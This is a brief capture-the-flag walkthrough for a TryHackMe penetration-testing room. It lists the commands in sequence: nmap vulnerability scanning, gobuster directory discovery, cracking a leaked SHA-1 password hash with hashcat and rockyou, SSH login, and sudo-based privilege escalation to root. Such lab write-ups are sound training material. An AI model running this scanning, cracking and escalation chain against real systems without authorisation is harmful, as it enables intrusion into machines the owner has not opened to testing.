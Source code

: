 # Write Up for CC Pen Testing Room Final

https://tryhackme.com/room/ccpentesting


1. First I run 'nmap --script=vuln -sV IP'

I get that there's a /secret directory.

2. Then, 'gobuster dir IP/secret -x txt' 

Open IP/secret/secret.txt in a web browser and get 

nyan:046385855FC9580393853D8E81F240B66FE9A7B8
After assuming different hash modes...

3. 'hashcat -a 0 -m 100 046385855FC9580393853D8E81F240B66FE9A7B8 /usr/share/wordlists/rockyou.txt' 

This gives the password

4. 'ssh nyan@IP''

 enter the password given.
 
5. 'ls', 'cat user.txt', and 'sudo -l' 

We find that we can type 'sudo su' for privesc

6. 'cd /root', 'ls', and 'cat root.txt'

And...
# BOOM!
There's the password we need.
